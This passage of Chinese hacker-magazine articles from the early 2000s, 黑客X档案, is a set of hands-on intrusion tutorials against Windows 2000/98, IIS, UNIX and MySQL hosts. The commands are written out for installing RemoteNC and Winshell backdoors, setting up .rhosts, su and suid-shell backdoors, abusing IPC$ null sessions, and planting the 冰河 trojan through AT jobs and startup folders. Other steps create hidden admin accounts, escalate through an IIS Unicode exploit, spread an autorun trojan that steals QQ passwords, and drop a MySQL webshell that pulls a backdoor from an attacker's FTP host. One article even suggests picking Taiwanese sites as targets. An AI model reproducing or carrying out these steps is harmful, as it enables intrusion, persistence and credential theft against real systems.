用小榕的Remotenc安装后门：假如对方的IP为127.0.0.1，管理员组成员：admin；密码为：admin。
C:\tools>remotenc 127.0.0.1 admin admin localsystem ftp ftp 7 dodo521
——RemoteNC Beta 2, Written by Assassin 2001——
http://www.netXeyes.com http://www.netXeyes.org
[Install Service as LocalSystem Account]:
Connecting: 127.0.0.1...... Done
Transfer File ........ Done
Start Service ........ Done
Now You can Telnet 127.0.0.1 7 to Connect, Have a Joy ;-)
```

这样，我们就可以 telnet 端口 7 进入系统，悄悄地为我们打开后门。补充一点：利用 Remotenc 做后门，有必要在启动服务里起个比较隐蔽的名字，而且最好把 Remotenc 用软件压缩之后再用，这样就有可能躲过细心的管理员查看服务和一些杀毒软件的查杀。

例 2：

```bash
用Winshell建立后门：假如对方的IP为127.0.0.1，管理员组成员：admin；密码为：admin。
C:\>NET USE \\127.0.0.1\IPC$ "ADMIN" /USER:
"ADMIN" ——和对方建立ipc连接通道
命令成功完成
C:\COPY D:\WINSHELL.EXE \\127.0.0.1\ADMIN$
——COPY WINSHELL.EXE到对方系统的默认共享目录。
命令成功完成
C:\NET TIME \\127.0.0.1 /SET ——调整时间和对方主机一致
命令成功完成
C:\>AT \\127.0.0.1 18:00 WINSHELL.EXE ——在18:00启动WINSHELL.EXE
计划成功添加 ID=1
也可以把WINSHELL.EXE COPY C:\INETPUB\SCRIPTS下，只需要在浏览器输入：http://xxx.xxx.32.139/winshell.exe 然后telnet 127.0.0.1 5277
```

### UNIX 下的后门制作

#### 1、Login 后门

当我们 telnet 进入 UNIX 系统的时候，系统会校验用户和密码。但是我们可以通过修改 login.c，使系统不校验输入口令和存储口令，直接忽略管理员口令，进入系统。但是这种方法并不能躲过管理员的 MD5 校验。由于需要修改 login.c，在这里没有办法做简单介绍。

## 黑客X档案2002-2003年合订本

# 一个人的战争

“面的举例。

### 2、Rhosts 后门

Rhosts 后门做起来比较简单。简单地讲，就是修改 rhosts 文件里的设置，可以让我们不必输入任何密码就可以进去。举例：

```text
# echo "+ +" >> /usr/bin/.rhosts
# cat /usr/bin/.rhosts
+ +
# rlogin -l bin localhost
```

我们将不用输入密码，直接用 bin 账号 rlogin 登录进去。但是这种也会被管理员检查“+”时发现。

### 3、su 后门

su 是一个后门程序，程序必须要安装在对方的主机上，至于怎么样安装到主机上这里不做详细说明。只要你有普通用户的访问权限，就可以用 su 的后门密码 su 成你想要的用户。

我们在对方的主机上运行：

```text
$id
uid=1002(oracle) gid=1(other) —— 查看自己用户 id 和组 id
$su root —— 切换成其他用户，用户名为 root
passwd_dodo521 —— 设置 su 的后门密码
#id
uid=0(root) gid=0(root)
你就有了 root 权限。
```

### 4、suid shell 后门

suid shell 在 /tmp 或者其它的目录下放置 suid shell。以后只要你运行这个程序，就会轻易得到根用户权限。

```text
#cp /bin/ksh /tmp/.sh —— copy ksh 文件到 tmp 目录下
#chown root:root /tmp/.sh —— 改变 tmp/.sh 的所属为 root
#chmod +s /tmp/.sh —— 改变 .sh 权限为可执行属性
```

当你运行 /tmp/.sh 时。这里我们用 ksh shell 是因为 ksh 可以 suid，换成其它的 shell 也许可能不行。具体看各个主机的情况而定，一般我们使用 ksh。我们使用溢出程序用来获得 root 权限，也一般是溢出后执行 /bin/ksh。

```text
$id
uid=1002(oracle) gid=1(other) —— 查看自己用户 id 和组 id
$/tmp/.sh —— 运行此文件
#
#id
uid=1002(oracle) gid=1(other) euid=0(root) egid=0(root) —— 权限为 root
```

以上就是我收集的各种后门，希望能对你有所帮助。

# Win2000 445端口的利用

冯智渊

在 Windows 2000 中出现了一个以前没有用过的端口 445。也许还有很多朋友还不知道这是一个什么端口，下面就是对这个端口的解释：

概念：

SMB（Server Message Block）：
Windows 协议族，用于文件和打印共享服务。

NBT（NetBIOS over TCP/IP）：
使用 137、138（UDP）和 139（TCP）来实现基于 TCP/IP 的 NETBIOS 网络互联。

在 Windows NT 中，SMB 基于 NBT 实现。而在 Windows 2000 中，SMB 除了基于 NBT 的实现，还有直接通过 445 端口实现。当 Windows 2000（允许 NBT）作为 client 来连接 SMB 服务器时，它会同时尝试连接 139 和 445 端口，如果 445 端口有响应，那么就发送 RST 包给 139 端口断开连接，以 445 端口通讯来继续。当 445 端口无响应时，才使用 139 端口。当 Windows 2000（禁止 NBT）作为 client 来连接 SMB 服务器时，它只会尝试连接 445 端口，如果无响应，那么连接失败（注意可能对方是 NT 4.0 服务器）。如果 Windows 2000 服务器允许 NBT，那么 UDP 端口 137、138，TCP 端口 139、445 将开放。如果 NBT 被禁止，那么只有 445 端口开放。

现在知道了吧，其实在 Windows 2000 中不光只有 139 是开启 ipc$ 空连接才有的端口，而且 445 端口是 Windows 2000 默认开放的。所以有的朋友在扫描对方 Windows 2000 主机时发现对方没有开 139 端口，就认为对方没有开 ipc$ 空连接，这是错误的。如果对方开了 445 端口，至少我们可以知道两点：

- 1、对方是 Windows 2000 的机器；
- 2、对方已经开了 IPC$ 空连接。

这样我们就可以用很多办法入侵这种主机。比如映射网络驱动器，先和对方做个 IPC$ 空连接：

`net use \\61.xxx.xxx.xxx\ipc$ "" /user:"administrator"`

// 默认情况下 Windows 2000 的管理员口令为空

提示命令成功，表示建立了 IPC$ 空连接，接着就可以映射对方的驱动器了，命令如下：

`net use z: \\127.0.0.1\c$`  // 把对方的 C 盘映射为你本地的 Z 盘（Windows 2000 的驱动器默认共享名为“盘符+$”），如图1所示：


好了，这样我们就可以像用自己机器上的驱动器那样使用对方的驱动器了，如图2所示。


图 2

接着做什么不用我说了吧！或者我们可以用 Windows 2000 下的计算机管理程序启动对方的一些服务，先和对方做个 IPC$ 空连接：

```text
net use \\61.xxx.xxx.xxx\ipc$ "" /user:"administrator"
```

提示命令成功，表示建立了 IPC$ 空连接（注意：要想使用 Windows 2000 的计算机管理程序启动对方的一些服务，你建立连接的帐号必须是管理员帐号）。打开本机上的计算机管理程序，如图3所示。


图 3

用鼠标右键点击“计算机管理（本机）”，选择“连接到另一台计算机”，这时会出现“选择计算机”对话框，在“名称”里输入对方主机的 IP 地址，然后按确定。如图4所示。


图 4

等一会儿就可以连上对方的计算机了，接着在计算机管理程序中选择服务和应用程序中的服务，等一会儿右边的窗口中就会出现对方主机的所有服务，看到了吗，如图5所示。有很多服务，Telnet 和 Terminal Services 都在。先开个 Telnet，用右键单击 Telnet，在弹出对话框中选择启动，等进度条完成后，Telnet 服务就开了。开 Terminal Services 也一样，不过 Terminal Services 服务要重启后才能生效！


图 5

看了上面的内容你是不是觉得 445 端口很有用啊！那下次扫描时把它也加到你的扫描列表里吧！


## WINDOWS 2000 入侵实战纪实

肖海鹏

随着 Internet 的日益普及，越来越多的个人和企业选择了 Windows 2000 作为服务器的操作系统。我们不得不承认 Windows 2000 给我们的学习和生活带来了方便、快捷和较高的安全性，同时 Windows 2000 也的确非常适合做服务器的操作系统。但微软实在也太可爱了，各种各样、大大小小的漏洞频报不断。据统计，在当年的美墨客网络大战中，绝大部分被黑的服务器都是以 Windows 2000 工作站作为操作系统的。所有这些，给企业的信誉带来了极大的安全隐患，也一直是使系统管理员深感不安的问题。事实上，任何一位略懂网络知识的人，通过简单的一个 DOS 命令 `net use \\*.*.*.*\x$` 就可以轻松地把对方的 X 盘映射成本地的磁盘。事实就这么简单。下面我就利用最简单的 IPC$ 空连接来介绍黑客是如何具体实施入侵的。

俗话说“工欲善其事，必先利其器”，在具体实施入侵之前，我们要先准备好工具。传统上，利用 IPC$ 空连接入侵 Windows 2000，一般得准备一个修改注册表的小程序（呵呵……记起来了吧。对，没错，就是小榕写的那个 NTLM.exe）。它专门用来修改目标服务器上的 NTLM 验证方式。另外，如果目标服务器上的 Schedule 或 Telnet 服务并没有开放的话，可能还需要另一个小程序 netsvc.exe——微软公司自己出的一个专门让系统管理员在建立 IPC$ 连接之后远程打开服务用的管理工具。到了黑客手里，自然也成了必不可少的黑客工具了。但菜鸟们可能会说：“我们到哪儿去弄这么些工具？”其实没有也不碍事，只要有下面的工具就足够了。


- 1. MS-Windows 2000／XP 及兼容的操作系统
- 2. 流光4（或流光2001）/ 小榕著名的漏洞扫描器 X-SCANNER（另一流光系的漏洞扫描器）
- 3. 一次对注册表修改和配置了的 Windows 跳板或大多数系统精杀的木马。

好了，一切准备就绪。

第一步，获取具有 Administrator 权限的用户帐号及密码。对于 Windows 2000 来说，要实现有效的入侵（我说的是入侵，而不是攻击），我们就必须想方设法获得一个具有管理员权限的用户帐号及密码。那可能有人要问：“普通用户帐号及密码不行吗？”当然，不能获得具有管理员权限的用户帐号，或获得的用户帐号不具有管理员权限，也能对 Windows 2000 构成一定的威胁，但这就不在本篇文章讨论的范围之列。我想补充一句，在现在的 Internet 网上，只要用扫描器一扫，很容易便能找到一些具有管理员权限的弱口令用户帐号。为此我们拉出 X-SCANNER（我比较习惯用这个扫描器，至于你具体选择 X-SCANNER 还是流光4（或流光2001），问题不是那么要紧，熟练掌握就行）。

启动 X-SCANNER 后（X-SCANNER 的主界面如图1所示），选择“扫描设置”选项，对扫描选项进行设置。由于我们这次仅是利用 IPC$ 进行入侵，所以在“扫描项目”里我们只要选中第一项、第四项和第六项就可以了。接下来是进行“运行参数”设置，在“扫描范围”里输入欲扫描的 IP 地址范围。在这里我要加一句，由于国内服务器在这方面漏洞较多，而我们并非技术不是用来对付自家人的，所以我们可以随便打开一个台湾的网站，获得其域名，然后在 CMD 命令提示符下 PING 这个域名，便可轻松地获得该网站的 IP 地址。（假设为 *.*.*.*）

回到 X-SCANNER 主界面，在“扫描范围”里输入 *.*.*.1—*.*.*.255，其它的选项保持默认设置即可。经简单的设置，我们就可以选择“开始扫描”了。到此我们可以再稍事休息，等扫描完毕，点击“查看结果”，很幸运，发现一个 Administrator 的用户，密码为空。如图2所示：


获得了管理员账号及密码就等于我们已经成功了一半。

第二步，正式实施入侵过程

喂！刚才打瞌睡的都醒醒！对，没错，就是你啦！关键时刻到了，没听清的话我可不说第二遍！

OK，言归正传。其实，就像我刚说的那样，获得了管理员的密码后，我们就成功了一半，接下来的事就相当 easy 啦！在 CMD 的命令提示符下输入：

```text
C:\>SVTS\RemoteNC>RemoteNC \\*.*.*.* administrator
::RunasUser::RemoteNC::Provide Local CMD Redirection
139:123456:（回车）
```

过一会儿屏幕便有如下显示：

```text
=== RemoteNC Beta 1.1 Written by Assassin 2001 ===
http://www.netXeyes.com  http://www.netXeyes.org
[Install Service as RunasUser Mode].
Connecting *.*.*.* ... Done.
Transfer File ..... Done.
Start Service ..... Done.
Now You can Telnet *.*.*.* 99 to Connect, Have a Joy :-)
```

My son，安装成功了，yeah！

好了。到此为止，就可以 Telnet 上目标机器了。

```text
C:\>telnet *.*.*.* 99  // 登录到指定的端口，按着屏幕提示：

RemoteNC Control Password: ******（回车）输入控制密码

=== Banyet Soft Labs. 1995-2001 All Rights Reserved. ===
=== Written by Assassin, Server Edition
FluxShadow@21cn.com ===
Microsoft Windows 2000 [Version 5.00.2195]
RemoteNC>
```

命令成功返回了。现在你想干什么就干吧！

下面我们就要好好利用这个帐号进入目标系统服务器了。在 CMD 命令提示符下输入：

```text
C:\>net use \\*.*.*.*\ipc$ "" /user:"administrator"
（回车）// 和目标服务器建立 IPC$ 空连接

命令成功完成。

C:\>net use * \\*.*.*.*\c$ （回车）// 将对方的 C 盘映射成自己的本地磁盘，如图 3 所示。具体映射成哪个盘符看你本地的硬盘盘符分配。
```


图 3

驱动器 I: 现在连接到 \\*.*.*.*\c$。  
命令成功完成。

哈哈……赶快打开“我的电脑”看看吧，对方的 C 盘是不是已经映射过来了？接下来我们还可以用同样的方法将对方的其它盘映射过来。具体我就不示范了。不过注意，当对方所有的盘都映射过来之后，再打入上述命令，将发生 67 号系统错误。

```text
C:\>net use * \\*.*.*.*\g$
系统发生 67 错误。找不到网络名。
```

这就说明已经将对方全部的磁盘分区都已经映射过来了。到此为止，目标服务器上的资料已经完全暴露于我们面前了。你可以随便地增删文件、查看资料，当然改个主页自然不在话下了。只要找到主页存放的目录，然后将自己准备好的网页拷过去即可。具体过程在这里不再详述。我们的目的不是在于破坏，我们仅仅是为了练习。

好不容易进了服务器，总得留个“纪念”吧！种木马的方法很多，下面就简单介绍几种用得比较普遍的方法：

方法一，在以上的步骤中，我们已经将对方的 C 盘映射到本地机子上了。这样我们就可以直接将冰河拖到对方的 `C:\Documents and Settings\All Users\开始菜单\程序\启动` 目录下，这样，只要目标服务器下一次重启，冰河便会自动运行。由于是经过修改和配置了的，冰河在运行后会自动删除原来拷到启动目录下的源程序（消除足迹），并且，这个木马连一般的杀毒软件都拿它不何。因为，我在修改后已经用多种杀毒软件测试过了，一路绿灯。嘿嘿……

上述方法的好处是操作简单，只要简单地一复制再一粘贴就一切 OK 了。但有人可能会说谁有那个耐心等到服务器下一次重新启动啊？并且作为商业运行的服务器，哪能像个人机器那样，想重启就重启啊？说得没错！刚才我也只是说了这种方法的好处，至于不好的地方，刚才那位朋友已经替我说了。来！大家一齐给他点掌声。好了，下面还有一种比较快捷的方法，如下：

方法二，首先还是要把冰河先拷到目标机器的 `C:\WINNT\system32` 目录下：

```text
C:\>copy d:\trai̇ons\G_server.exe \\*.*.*.*\admin$\system32 （回车）
已复制 1 个文件。
C:\>net time \\*.*.*.* （回车） // 获取目标机器上的时间
命令成功完成
C:\>At \\*.*.*.* 04:10 "G_server.exe"（回车）
新加了一项作业，其作业 ID = 1
```

OK，默默地等待两三分钟后再运行冰河客户端。如图 4 所示。


图 4

单击“添加主机”快捷按钮，添加目标服务器的 IP，再连接，是不是一切 OK？啊！连不上去呀？怎么可能？让我看看……的确，好像没有什么错误啊？哦，发现了，端口不对。我配置的端口是 1075，目的是为了防止被管理员一眼就看出来是中了冰河。好了，再连上去试试，一切 OK 吧！

方法三，这个方法要用到目标服务器的 Telnet 服务。可能管理员为了安全，根本就没开这项服务，或者即使开了这项服务，在连接的时候也可能要密码。查一下 X-SCANNER 的扫描漏洞报告，如图 5 所示，证实了推测是正确的。这时有人可能会想，要是有 netsvc.exe 这个程序该多好啊！这样的话，我们就可以启动对方的 Telnet 服务了。再 Telnet 上去，不好，要身份验证，这可又怎么办呢？有人提醒说赶快找 ntlm.exe，这样不就可以轻松搞定了吗？可恨手下并没有这款工具呀！

大家别急，且看本人来搞定它。首先，打开“开始”菜单的“运行”，在运行框中输入 regedit，打开本地注册表编辑器，随后单击“注册表”，选择“连接网络注册表”项，在打开对话框里输入目标服务器的 IP 地址，确定即可。过一会儿，对方注册表里最重要的三个主键便赫然出现在我们的眼前了。如图6所示。


接下来我们要做的就是依次打开“我的电脑”\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0，在右边的窗口里找到 NTLM 项，右键单击，选择修改，将原来的 2 改为 1 或 0，这样对方的 Telnet 服务的登录验证方式就被我们修改了。在这里还要再啰嗦几句：


- 0：代表不使用 NTLM 身份验证，而使用输入用户名和密码的方式验证。
- 1：也尝试 NTLM 身份验证，万一失败后再使用用户名/密码的方式验证。
- 2：代表采用 NTLM 身份验证机制。

修改完后，记得单击“文件”，选择“断开网络注册表”，在弹出的对话框中选择目标服务器的 IP，单击“关闭”。OK，前期工作就告一段落了。

下面准备启动对方的 Telnet 服务。在桌面“我的电脑”上右键单击，选择“管理”，在弹出的“计算机管理”窗口中，右键单击“计算机管理（本地）”，选择“连接到另一台计算机”选项，然后在弹出的“选择计算机”对话框中输入目标服务器的 IP 地址，“确定”即可。不一会儿，对方的“计算机管理”窗口便出现在我们眼前了。如图7所示。

OK，在右边的窗口里找到 Telnet 项，右键单击，选择“启动”。由于我们具有 Administrator 权限，不一会儿，启动成功。如图8所示。

接下来，回到 CMD 窗口，在命令提示符下输入：

```text
C:\>telnet
欢迎使用 Microsoft Telnet 服务。
C:\>
OK，大功告成，接下来，便可以种木马了。
C:\>G_server.exe
```

到此为止，木马也种上去了。回顾一下上面的方法，其实关键性的只有两步：一是远程修改注册表，改变对方系统的 NTLM 验证方式；第二是通过管理工具启动对方的 Telnet 服务。

仅此而已，一点也不复杂。总之，远程运行木马的方法还有很多，在其它的文章里也都有介绍，在此就不再进一步讨论了。

上面讲的是入侵成功后种木马的全过程。事实上，如果你嫌后门留得还不够，你还可以在目标服务器上增加一个帐户，以免管理员哪天心血来潮，把那个唯一帐号也改了密码，那就不大方便了。为此，可以在 Telnet 上去之后，用命令加一个帐户：

```text
C:\>net user admin 123456 /add
命令成功完成。
C:\>net localgroup administrators admin /add
命令成功完成。
```

这样以后就可以用这个帐户登录该服务器了。入侵到此也该结束了，不过在撤出之前，别忘了清理一下现场，免得让管理员发现。

```text
OK，LOGOFF。
C:\>exit  // 退出目标服务器，避免对主机的连接。
C:\>
C:\>net use \\*.*.*.*\ipc$ /delete  // *.*.*.*\ipc$ 已经删除
```

# 一个人的战争

# 黑客X档案2002—2003年合订本

## 盗马也玩 Unicode

Netjockey

利用微软 IIS 4.0/5.0 扩展 Unicode 目录遍历漏洞入侵系统已经不是什么神秘的技术了，但对于新手朋友们，要轻松地利用这个技术入侵系统还不是很容易。不说别的，光在 IE 地址栏里输入那么多的 Unicode 编码就让大家够受，为了让新手朋友们更好地学习利用这个技术，笔者这里勉为其难推荐一样好东西——IIS Cracker Pro。如图 1 所示。


“IIS Cracker Pro”是一款以资源管理器界面操作 IIS 服务器的工具，其中内置了 IIS 漏洞扫描器，即使你不知道什么是 Unicode，什么是 DOS 命令，也能快速上手。“IIS Cracker Pro”能查看/改写/创建/删除文件和文件夹、磁盘序列号/卷标/容量（已用空间/可用空间/总空间），更改文件/文件夹属性。它还有“查找文件”功能，能帮助你快速定位文件或 Web 目录、目录复制功能、增强的 HTTP 报文、多种用户代理（IIS Cracker、FlashGet、IE、NetScape）、用 C-S-R-D（Connect-Send-Receive-Disconnect，传输即断开）连接更安全、延时功能，最大限度保证数据传输完整。

怎么样？是不是认为它很棒啊！其实这软件最主要的特点是免去了我们在 IE 地址栏里输入大量 Unicode 编码的麻烦，使整个入侵过程变得相当容易。说了这么多，下面就跟我一起来试试吧！

## 一、图释

为了让新手朋友们更好地掌握和使用“IIS Cracker Pro”，下面我将向大家演示一次使用“IIS Cracker Pro”，并结合一些其它工具，通过利用微软 IIS 4.0/5.0 扩展 Unicode 目录遍历漏洞入侵开着 Win2000 终端服务器的主机并得到该主机的最高权限，最终通过终端服务器完全控制这台计算机。

## 二、所需工具

- IIS Cracker Pro（图形界面操作 IIS 服务器的工具，目前最新版是 2.16.328），下载地址：http://www.heibai.net/download/show.php?id=2586&down=4
- X-Scan-v2.0（虽然 IIS Cracker Pro 也有扫描功能，但它内置的 Unicode 漏洞编码只有 6 种，所以只好请 X-Scan 出马了）
- Tftpd32（上传工具）、ISPC（IIS 权限提升工具）
- 以上软件收藏在本刊光盘的《杂志相关》中。

## 三、实例

打开 X-Scan-v2.0，点击主界面左上角第一个按钮“扫描模块”，勾选其中的“开放端口”和“IIS 漏洞”两项，如图 2 所示。单击确定返回主界面。


接着点击主界面左上角第二个按钮“扫描参数”，先在弹出的对话框中选择“端口相关设置”，在“待检测端口”中填上“3389”（Win2000 终端服务器所开的端口），如图 3 所示。


接着选择“基本设置”这一项，在“指定 IP 范围”中填入想要扫描的地址段，然后在“其它”中选择“跳过没有检测到开放端口的主机”，如图 4 所示。单击确定返回主界面。


单击中间的“开始扫描”按钮后，X-Scan-v2.0 就开始扫描了。趁着扫描的工夫，为大家介绍一下 X-Scan-v2.0。用过它前一个版本 X-Scan-v1.3 的朋友一定被它在扫描系统漏洞方面的强大功能所吸引。作为 X-Scan-v1.3 的升级版，X-Scan-v2.0 带给我们的是更全面的系统漏洞检测，特别是在检测 IIS 4.0/5.0 扩展 Unicode 目录遍历漏洞方面，X-Scan-v2.0 几乎内置了目前所有已知的 Unicode 漏洞编码，而且对于这些已知漏洞，X-Scan-v2.0 还给出了相应的漏洞描述、利用程序及解决方案。这也是我这次结合使用 X-Scan-v2.0 的原因。简单介绍完了 X-Scan-v2.0，让我们来看一下扫描结果，咯，收获不小，如图 5 所示。

下面就该使用“IIS Cracker Pro”了。“IIS Cracker Pro”需要安装后才能使用。安装很简单，一路 NEXT 就可以了。安装完后打开“IIS Cracker Pro”，在“当前连接”中填入存在 IIS 漏洞的主机 IP 地址，然后将刚才“X-Scan-v2.0”扫描到存在漏洞主机的 Unicode 漏洞编码复制到“Unicode 攻击方式”旁边的框中。


复制方法很简单，在“X-Scan-v2.0”根目录下找到“log”文件夹，这个文件夹是用于存放扫描结果的。X-Scan 的扫描结果是以 HTM 文件形式保存的，每台被扫描到漏洞的主机都会有相对应的扫描记录被存为 HTM 文件。当我们需要复制存在漏洞主机的 Unicode 漏洞编码时，只需打开该主机相对应的 HTM 文件，在该文件中的“详细资料”一项下面就是这台主机所存在的所有 Unicode 漏洞编码，如图 6 所示。


然后用鼠标选取一段 Unicode 漏洞编码复制到“IIS Cracker Pro”中就可以了。好了，一切准备就绪，下面就可以连接了。点击“IIS Cracker Pro”左上角的“建立连接”图标，连接成功后会在“IIS Cracker Pro”界面下方的“远程目录资源管理器”中看见对方主机的文件，这时我们就可以通过在“路径”一栏中输入指定的盘符或文件夹路径来浏览对方主机的所有文件，如图 7 所示。

其实，此时对方主机已经在我们的控制之下了。我们可以通过鼠标右键菜单任意增删或是复制移动对方的文件，不过这还不是这次入侵的最终目的，我们要得到该主机的最高权限，通过终端服务登录来控制这台机器。为了能得到该主机的最高权限，我们必须上传 IIS 权限提升工具，这里推荐 ISPC，这个工具的使用比较方便，成功率也较高。


在 ISPC 中有两个文件：idq.dll 和 ispc.exe，其中的 idq.dll 文件我们要上传到对方主机的一个可执行目录中，例如 /scripts，然后使用 ispc.exe 进行连接。下面我们就使用 Tftp32（很有名的上传工具，不用我介绍了吧）把 idq.dll 上传到对方主机的一个可执行目录中。先把 idq.dll 复制到 Tftp32 的根目录下，打开 Tftp32，然后点击“IIS Cracker Pro”界面上方的快捷命令，在弹出对话框中输入“tftp -i ***.***.***.*** get idq.dll”，如图 8 所示。


因为 idq.dll 很小，一般很快就能上传到对方主机。上传成功后点击“远程目录资源管理器”下方的“刷新”就能看见上传到对方主机的 idq.dll 文件了，如图 9 所示。


接着打开“命令提示符”，输入`C:\>ispc ***.***.***.*** /scripts/idq.dll`，此时屏幕显示：

```text
Start to connect to the server
We Got It!
Please Press Some <Return> to Enter Shell
```

```text
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-1999 Microsoft Corp

C:\WINNT\system32>
```

这就表示连接成功了，下一步就可以添加用户，提升权限，如图 10 所示。

```text
C:\tool>ispc 61... /scripts/idq.dll

Start to connect to the server...
We Got It!
Please Press Some <Return> to Enter Shell....

Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>
```

图 10

在“命令提示符”中输入：

```text
net user guest /active:yes
net user guest 123
net localgroup administrators /add guest
```

这些命令的含义想必大家都应该知道了，这里就不作解释了。不过要提醒大家，在 ispc.exe 中输入完一个命令后要按三次回车，才能回显。

至此，我们这次针对微软 IIS 4.0/5.0 扩展 Unicode 目录遍历漏洞的入侵任务全部完成了。现在我们已经可以通过终端服务器的客户端来连接对方主机，用刚才激活并提升为管理员权限的 guest 帐户完全控制对方的计算机了。大家是不是觉得在结合使用了以上这些工具后，入侵有 IIS 漏洞的主机比以前方便了很多。

最后希望这次介绍的工具和入侵的思路，对希望踏足黑客技术的新手朋友们有所帮助。当然，如果大家发现更好的工具或是方法，也期望你能像我一样写出来和大家一起分享。


大家知道，通过扫描工具，我们可以获得许多共享的资源，有时甚至是完全共享。但这并不能使我们满足——“We will take the control of those facilities”（台下响起一片欢呼声——《龙卷风暴》中的精彩片断），现在我们结合《黑客X档案》前几期介绍的相关技术，来冲动 DIY 一次入侵行动。

- 行动代号：狼来了
- 任务简介：以 Windows 98 共享为突破口，植入木马并夺取目标系统的控制权。
- 主要装备：局域网超级工具（扫描共享资源）、广外天王 1.53B（夺取系统的控制权）、Pqwak2（破解 Windows 98 共享口令）、Winamp 2.79a（路漫漫，共享远兮，来点音乐听没人会反对吧）

一切准备就绪，下面就开始我们的行动吧！首先，打开 Winamp 播放一段我最喜欢的燕姿的《Hey, Jude》，接着启动局域网超级工具（我用过许多扫描共享资源的软件，这一款无论从速度还是操作上都有着良好的性能，所以我信赖，我选择！）。

点击搜索计算机，程序开始扫描，过了不大一会儿就扫描到了 122 台计算机，接着点击搜索所有共享，过了大概两分钟就有了结果，如图 1 所示。

哈哈，看来今天的运气还是蛮不错的，有很多机器都共享了 D 盘，下面我们来一一查看。点击了很多台机器，发现 D 盘都是只读共享，这一点不符合我们的要求，所以只好继续查找下去（做事要有耐心，这可是黑客精神的一部分哦！）。又过了大约 5 分钟，我发现了一台要求输入连接密码的机器，预感告诉我“机会来了”，如图 2 所示。


图 1


图 2

对付这种状况我可是早有准备，Windows 98 下的网络密码校验有漏洞，至多试 256 次就一定能猜出密码。所以不要浪费时间，马上运行 Pqwak2（NetPass 不好用，经常会出错误），输入该主机对应的 IP 地址（可以从局域网超级工具中获得），输入共享名“D”，点击 Crack，不出两秒钟密码就显示出来了，竟然是 1234，这位仁兄可真是……，如图 3 所示。

好了，有了密码之后就让我们进去看个究竟吧！随便拽个文本文档上去，啊哦，竟然是完全共享的。哈哈哈……终于让我找到了（流口水状）。下面使出我的必杀技：上传木马。


这里我们有两项工作要提前做好，第一是设置好广外天王的服务器端；第二是打开记事本写入以下内容：

```text
[AUTORUN]
OPEN=GDUFS.EXE
```

保存的时候注意选择格式为所有文件，取文件名为 Autorun.inf 保存。最后别忘了设定这两个文件的属性为“隐藏”“系统”和“只读”（在 MS-DOS 下键入：attrib path.\filename +s +h +r），如图 4 所示。

准备好了就把这两个文件一起上传到共享的 D 盘中去，如图 5 所示。


大功几近告成了，剩下的事就是打开广外天王的客户端，输入目标机器的 IP 地址，然后每隔一段时间刷新一次。在听了几首歌之后，那边传来了好消息，木马成功运行了，如图 6 所示。


现在能做什么呢？当然是你想做什么就做什么了，木马的好处就在于此了。

截个图，发现对方已经开了 QQ，而我们的密码记录里却没有捕获到。没关系，切换到进程管理，杀了它的 QQ 进程，让它重新启动不就行了，如图 7 所示。


结果和我们想像的一样。嘿，写得一清二楚，而且还有很多其它的信息哦……如图 8 所示。


至此，我们的任务就已经顺利完成了，至于还能做些什么那就要看你的想像力了。入侵结束之后记得把服务器端卸载掉，做黑客也要讲道德哦！

> 注意！！

看到这里，不知道读者作何感想。我之所以能这么轻松地完成这次入侵，除了有诸位大侠们写的厉害程序之外，最重要的原因就是共享。所以在安全方案还没有探讨好的情况下，切不要去开你的硬盘共享。

## 从通过 MySQL 入侵的实例


某晚上，发现一个网站论坛所驻主机的 MySQL 的 root 用户密码为空，所以就用 MySQL 客户端登录上去看看，毕竟这个论坛有许多用户呢！

于是，利用如下命令：

```sql
mysql -h www.xxx.com -u root
```

回车后显示出如下内容：

```text
Welcome to the MySQL monitor. Commands end with ;
or \g.
Your MySQL connection id is 164016 to server version:
3.23.39
Type 'help' for help.
mysql>
```

OK 了，看到了 MySQL 的提示符，这时候我们就可以看看它的数据库了，使用如下命令：

```sql
mysql> show databases;
```

显示出来三个数据库：

| Database |
|---|
| bbs |
| mysql |
| test |

3 rows in set (3.54 sec)

从名称上可以判断出来，bbs 就是论坛的数据库，那我们就进入数据库看看：

```sql
mysql> use bbs;
mysql> show tables;
```

| Tables_in_mybbs |
|---|
| access |
| adminlog |
| adminutil |
| smilie |
| style |
| subscribeforum |
| subscribethread |
| template |
| threadrate |
| user |
| useractivation |
| usertitle |
| word |

39 rows in set (7.65 sec)

整个论坛的数据表都出来了，然后我可以修改它的 user 表，使论坛上的用户变成管理员，用：

```sql
update user
set usergroupid=6
where username='sa';
```

命令就可以了。

如果你不会 SQL，可以先学学基本的 SQL 语句。命令运行成功后，你再去论坛的时候自己就是管理员了。当然，我们不要满足于只当个论坛管理员，试着再进一步扩大一下战果吧！

下面，我们就来弄个 PHP 的 webshell，这样方便多了。不过在通过 MySQL 弄 webshell 之前，我们还是先确定一下网页的绝对路径比较好，于是我先进入论坛管理面板，登录后，有个上传信息图标的功能，什么都不填，直接提交，这样绝对路径就暴露出来了：d:\www\bbs，这使我们在以后的工作中就好办多了。

回到 mysql> 提示符下，转到 test 数据库中，show tables 一下，发现没有任何表，那么我们就给它建立一个表，这样是为了导入导出文件，用如下命令建立一个表：

```sql
create table sa(st text);
```

在表中插入内容：

```sql
insert into sa values('phpwebshell 的内容');
```

这里 phpwebshell 可以自己找，“packetstorm”上就有一个非常不错的。完成后我们就可以导出一个 php 的 webshell 了，用如下命令：

```sql
select * from sa into outfile "d:/www/bbs/xploit.php";
```

好了，现在用浏览器就可以看到刚才导出的 webshell：http://www.xxx.com/bbs/xploit.php，用这个就可以读取、执行任何文件了。

接下来，我们可以用 webshell 写一个 FTP 脚本，然后调用 FTP 把后门上传到服务器上。也许你在以前刚学会利用 Unicode 入侵主机的时候就知道了这种方法，如果你不知道，在这里再说一下。我们可以用 webshell 执行命令功能依次运行：

```text
echo open www.myhost.com>>a.txt
echo as>>a.txt
echo as>>a.txt
echo get srv.exe>>a.txt
echo quit>>a.txt
```

其中 www.myhost.com 是我的一个 FTP 空间，里面有后门；后面的两个 as 依次是用户名和密码；srv.exe 是一个后门程序。

然后用 webshell 调用 FTP 命令来上传后门：

```text
ftp -s:a.txt
```

过一会儿，用 webshell 察看一下上传是否正常，如果看到 srv.exe 已经上传完毕，就用 webshell 去运行它就可以了。最后就用 Telnet 或者你的木马客户端去连接。OK，结束这次任务。

# 内部网络的入侵

## 1 前言

